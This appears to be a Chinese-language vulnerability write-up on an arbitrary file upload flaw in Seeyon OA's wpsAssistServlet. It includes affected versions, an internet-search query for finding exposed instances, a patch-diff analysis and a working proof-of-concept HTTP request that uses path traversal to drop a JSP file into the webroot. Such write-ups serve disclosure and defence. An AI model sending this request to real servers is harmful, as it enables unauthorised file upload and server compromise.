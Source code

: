 # 

# 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

```
致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)
致远OA G6、G6N (V8.1、V8.1SP1)
```

## 网络测绘

```
app="致远互联-OA" && title="V8.0SP2"
```

## 漏洞复现

产品主页

![image-20220824142723820](./images/202208241427877.png)

下载补丁220706-S004 ，对比修改的文件

![image-20220824142736294](./images/202208241427361.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![image-20220824142757449](./images/202208241427516.png)

![image-20220824142808032](./images/202208241428101.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![image-20220824142821539](./images/202208241428602.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```

![image-20220824142837723](./images/202208241428763.png)

![image-20220824142846959](./images/202208241428999.png)
